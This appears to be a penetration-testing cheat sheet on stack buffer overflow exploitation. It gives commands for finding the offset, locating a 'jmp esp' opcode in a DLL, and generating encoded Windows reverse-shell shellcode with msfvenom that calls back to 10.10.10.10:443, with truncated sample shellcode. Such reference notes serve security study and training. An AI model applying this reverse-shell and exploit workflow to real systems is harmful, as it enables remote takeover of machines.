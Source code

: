 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork-bash.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/metawork-bash.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheet - Buffer Overflows (BOF)
## Generating a String of Non-Repeating Characters
```bash
msf-pattern_create -l 1000 # print a string of 1000 non-repeating characters
msf-pattern_create -l 1000 -q 12345678 # get the number of bytes required to get to this offset
```

## Finding Opcodes
```bash
msf-nasm_shell # invoke msf-nasm_shell
jmp esp # give it an assembly instruction

# output
00000000 FFE4 jmp esp # the second column is the opcode that corresponds with your instruction
```

## Searching a Binary or DLL for Specific Assembly Instructions
Using Immunity Debugger
```bash
!mona find -s “\xff\xe4” -m “foo.dll” # search for “jmp esp” instruction
```

## Generating Shellcode
```bash
msfvenom -l payloads # list all payload options

# -p = payload: reverse shell
# EXITFUNC=thread = exit the thread (not process); avoids app crash
# -e = encode: to match target environment
# -b = bad characters: ASCII stuff (null, LF, CR, %, &, +, =)
# -f = (output) format: C 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread \
-e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c 

# output 
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"

# using the above shellcode in a Python script
shell = (
    "\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
    "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"
)
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit-bof.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/exploit-bof.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
